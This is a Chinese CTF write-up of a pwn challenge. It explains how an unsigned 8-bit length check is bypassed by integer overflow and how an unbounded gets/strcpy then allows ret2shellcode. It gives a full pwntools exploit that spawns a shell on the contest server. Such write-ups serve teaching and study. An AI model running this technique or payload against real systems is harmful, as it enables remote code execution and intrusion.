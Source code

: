 ```yaml
---
title: 「TSCTF-J_2021」Pwn - Int_Or_Char WriteUp
date: 2021-10-25 0:00:00
tags: ['TSCTF-J_2021', 'Pwn', 'WriteUp']
categories: ['CTF']
authors: [nova]
index_img: https://novanoir.moe/img/ctf_logo_2.png
banner_img: https://novanoir.moe/img/ctf_logo_2.png
---
```


## 题目

### 初步确定思路

使用`checksec`查看一下文件，发现并没有开启NX和PIE，则初步考虑ret2text和ret2shellcode

![checksec](https://cdn.novanoir.moe/img/image-20211025175327904.png)

<!--truncate-->

### 分析代码

直接跳到`pwn()`函数开始看吧

```c
int pwn()
{
  char s[50]; // [esp+Dh] [ebp-3Bh] BYREF
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  puts("Plz input ur passwd:");
  puts("Tip: The passwd length needs to be between 4 and 8 characters");
  gets(s);
  v2 = strlen(s);
  return check(v2, s);
}
```

注意到`gets(s)`并没有限定长度，可以考虑在这里栈溢出。

来到`check(v2, s)`函数

```c
char *__cdecl check(int a1, char *src)
{
  if ( (unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u )
  {
    puts("So bad!");
    puts("The passwd length needs to be between 4 and 8 characters");
    exit(0);
  }
  puts("good length!");
  return strcpy(passwd_buf, src);
}
```

这里要求我们的长度`a1 > 3 && a1 <= 8`，如果是这样的话我们很明显无法构造出我们想要的payload, 这里可以参考攻防世界的[Int_Overflow](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1)的writeups提到的**整数溢出漏洞**

> 一个通俗易懂的C语言例子
>
> 对于一个`2字节的unsigned short int型变量`，当它的数据长度超过2字节时，就会溢出，使用的数据也仅仅是最后两个字节
>
> ```c
> int main()
> {
> unsigned short int var1 = 1, var2 = 257; //var1 = 0x
> if (var1 == var2)
> {
> printf("溢出");
> }
> return 0;
> }
> ```
>
> ```shell
> Out:
> 	溢出
> ```

回到我们这题， 我们的`v2`是一个`unsigned __int8`的变量, 这意味着它的取值范围只有`0~255`那如果我们传入一个长度为*256*的数据，`v2`的值其实就变成了*1*(255 + 1), 这样一来，我们传入的长度可以到`(255+4)~(255+8)`也就是*259-263*个字符。

好的，绕过了字符长度检查，接下来又应该怎么利用这个漏洞呢？

```c
char *strcpy(char *dest, const char *src);
```

这是`strcpy`的原型, 也就是说, `src`的内容会拷贝到`dest`所在的地址上，也就是题目中的`passwd_buf`处

![passwd_buf地址](https://cdn.novanoir.moe/img/image-20211025194709773.png)

我们来看一下栈堆

![stack of check](https://cdn.novanoir.moe/img/image-20211025192814285.png)

这里我贴上Mark大爹的讲解：

![性感Mark在线教学](https://cdn.novanoir.moe/img/image-20211025192651649.png)

> 理解较浅，原因什么的按下不表，等我去把Pwn入门了把栈整明白了再说（）

前面提到，因为NX没开，所以我们的buf是**可执行**的，这也给了我们使用`shellcode`的条件，而且我们并没有调用系统指令的函数存在，因此必须糙一个shellcode出来

```python
from pwn import *

context(os='linux', arch='i386', log_level='debug') # 指定了目标是32位系统, 下文

shellcode = asm(shellcraft.sh()) # 生成shellcode
buf_addr = 0x804A060 # buf地址
# print(shellcode)

payloadd = shellcode.ljust(0x3b, b'A') + b'A'*4 + p32(buf_addr) # 我们先把shellcode左对齐到栈底，再加上4字节的数据干掉rbp, 再加上p32(buf_addr) 即可跳转到buf_addr执行，也就是我们的shellcode
payloadd = payloadd + b'A'*(262-len(payloadd)) # 补齐payload以实现整数溢出漏洞
# print(len(payloadd))
# print(payloadd)
p = remote("45.82.79.42", 11001)

p.recvuntil("characters")
p.sendline(payloadd)
p.interactive()
# 此时已经拿到了shell, 该干什么就不用多说了8

```

> 在本WriteUp编写之前服务器已经shutdown了，所以没有获得shell之后的过程啦

### 个人总结

虽然在做这题的时候虽然整数溢出这个很快就实现了，如何运行shellcode却卡了很久（原因就是到达了栈底之后还要覆盖掉rbp才能跳转，在这之前我完全不理解为什么）

Pwn真是太有意思辣

## 参考资料

[ret2shellcode](https://blog.csdn.net/qq_45691294/article/details/111387593)

Mark大爹
